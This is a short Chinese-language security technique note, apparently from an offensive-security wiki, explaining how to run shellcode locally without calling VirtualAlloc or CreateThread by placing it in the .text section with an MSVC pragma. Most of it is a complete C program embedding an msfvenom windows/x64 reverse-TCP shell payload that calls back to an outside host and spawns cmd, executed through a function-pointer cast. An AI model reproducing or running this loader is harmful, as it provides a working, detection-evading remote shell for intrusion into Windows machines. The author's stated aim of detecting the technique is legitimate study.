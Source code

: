 ## 无需 Windows API 的本地 Shellcode 执行

可以从本地进程执行 shellcode，而无需使用众所周知的 Windows API（例如`VirtualAlloc`或`CreateThread`类似的 API）。众所周知，恶意软件会使用这种技术，因此我也想捕获它。

为了实现这一点，我们需要使用 MS Visual C++ 和一个`section`编译指示，以及`allocate`声明符说明符，告诉编译器我们希望我们的 shellcode 分配在`.text`可移植可执行文件的部分内，这样程序就不需要分配 RWX用于存储 shellcode 的内存 blob。此外，我们需要将包含 shellcode 的数组转换为函数指针并调用它 - 这允许我们跳过`CreateThread`通常用于跳转到 shellcode 的类似 Windows API。

```c
#pragma section(".text")

// msvenom -p windows/x64/shell_reverse_tcp lhost=X lport=Y -f c
__declspec(allocate(".text")) char goodcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main()
{
    (*(void(*)())(&goodcode))();
}
```

